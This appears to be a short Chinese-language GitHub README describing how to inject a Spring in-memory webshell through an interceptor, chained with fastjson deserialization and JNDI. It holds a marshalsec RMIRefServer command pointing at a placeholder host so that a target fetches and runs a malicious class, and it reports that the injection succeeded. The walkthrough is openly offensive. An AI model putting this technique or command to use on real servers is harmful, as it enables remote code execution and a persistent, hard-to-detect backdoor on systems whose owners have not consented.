


# 利用intercetor注入Spring内存马

前置知识学习下面这篇文章就行

https://jishuin.proginn.com/p/763bfbd642b7

但是还是吐槽一句最终实现的时候居然是注入路由的那种，上不对下系列，代码放在了code文件夹

关于这个的注入要么是配合SPEL要么是配合fastjson与JNDI了

## 演示

首先在本地搭建SpringBoot环境，启动以后target目录下会有TouchFile.class，上传到marshalsec同目录下

命令行输入

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xxx/marshalsec/target/#TouchFile" 1236
```

这里演示配合fastjson打的



成功注入

